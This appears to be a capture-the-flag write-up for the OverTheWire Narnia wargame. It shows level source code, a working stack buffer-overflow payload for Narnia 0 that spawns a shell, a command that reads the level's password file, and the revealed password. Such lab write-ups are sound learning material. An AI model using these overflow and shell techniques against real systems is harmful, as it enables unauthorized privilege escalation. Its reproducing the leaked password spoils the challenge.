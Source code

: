 **>> Details: [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)**

> This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

![grafik](https://user-images.githubusercontent.com/84674087/142839640-d5296859-5d88-4d7e-8d83-a703d855b394.png)

<br />
<br />

## Narnia 0

![grafik](https://user-images.githubusercontent.com/84674087/142839936-9a2f374f-9862-45a3-831b-77ca618ca65a.png)

#### Solution
- We check the **sourcecode of narnia0.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
- One can immediately spot the limited char buffer, which is assigned to 20 chars
- Moreover, the user input can account for up to 24 chars and is handed over to char buffer
- Let us provide user input with 24 chars to check what's happening
- To do so, we run a one-liner in the terminal with the help of simple python code
   - Option 1): ``` ./script `python -c "print('hello')"` ```
   - Option 2): `python -c "print('hello')" | ./script`
   - Option 3): `(python -c command1 ; command2 ; cat) | ./script`  --> "cat" keeps shell open (!)
- We proceed with Option 2) and adjust the command to our needs
- `python -c "print('C'*24)" | ./narnia0`
- Output:

![grafik](https://user-images.githubusercontent.com/84674087/142843934-579dcfca-d8dc-4fc9-8213-d7673334469e.png)

- We can change val from 0x41414141 (AAAA) to 0x43434343 (CCCC)
- Now we want to write "0xdeadbeef" instead of 0x43434343
- `python -c "print('C'*20 + '\xef\xbe\xad\xde')" | ./narnia0`
- It works ! But we don't see the shell ?!
- Here comes above mentioned Option 3) into the game: We have to keep the shell open with another command like "cat"
- `(python -c "print('C'*20 + '\xef\xbe\xad\xde')"; cat) | ./narnia0`
- We become user narnia1 and do `cat /etc/narnia_pass/narnia1`
- **PASSWORD:** efeidiedae

<br />

## Narnia 1

![grafik](https://user-images.githubusercontent.com/84674087/142846849-81325393-f307-4a49-be4c-4455620f6bec.png)

#### Solution 
- We check the **sourcode of narnia1.c**:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```



<br />


